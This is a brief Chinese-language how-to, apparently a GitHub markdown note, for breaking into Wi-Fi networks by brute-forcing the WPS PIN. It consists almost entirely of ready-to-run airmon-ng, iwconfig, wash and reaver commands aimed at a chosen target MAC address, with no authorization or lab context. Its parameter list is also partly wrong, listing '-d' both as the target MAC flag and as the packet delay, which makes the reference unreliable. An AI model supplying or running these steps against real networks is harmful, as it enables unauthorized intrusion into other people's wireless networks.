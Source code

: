 ### Wi-Fi破解(PIN方法)

- 检查可能影响破解的进程并关闭

```bash
sudo airmon-ng check # 检查可能会影响破解的进程
sudo airmon-ng check kill # 自动杀死进程
```

- 将无线网卡设置为monitor模式(必须)

```bash
sudo ifconfig <无线网卡名> down
sudo iwconfig <无线网卡名> mode monitor
sudo ifconfig <无线网卡名> up
```

- 检查周围wifi的MAC地址

```bash
sudo wash -i <无线网卡名>
```

- 开始破解

```bash
sudo reaver -i <无线网卡名> -b <目标MAC> -vv
```

- reaver参数解析

```bash
-i  # 指定网卡
-d  # 目标wifi的MAC地址
-v  # 显示不重要警告信息, 再加个v显示更多
-d  # 发包间延时
-t  # 等待对方回应延时
```

- 关闭monitor模式

```bash
sudo ifconfig <无线网卡名> down
sudo iwconfig <无线网卡名> mode <模式>
sudo ifconfig <无线网卡名> up
```

